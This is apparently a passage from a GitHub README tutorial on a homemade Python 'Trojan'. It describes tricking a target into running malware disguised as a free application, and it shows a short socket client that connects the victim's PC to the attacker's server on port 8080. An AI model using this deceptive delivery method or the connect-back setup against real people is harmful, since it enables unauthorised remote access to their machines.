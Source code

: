 ##

:star: In this photo we can see that the attacker has executed the python script and is waiting.

# :zap: Target executes our python script :zap:

:star: Step 2: Imagine the target has downloaded an executable file like a free application that our attacker uploaded befor from internet,
now he want to install that application that contains our Trojan, so when he executes our file, our python script start working. 
it asks the server name, we put the server's name [DESKTOP-E80I7RR] and the connection will be created between these two machines.
as the result you can see ``` Connected to the server successfully ``` on CLI of the target PC.

```python
#!/usr/bin/python
import os
import socket

s = socket.socket()
port = 8080
host = "127.0.0.1"
host = input (str("Please enter the server address : "))


s.connect((host,port))

print (" ")
print (" Connected to the server successfully")
print (" ")

```
##
<img src=images/10.PNG  alt="alt text" width="950" height="550">
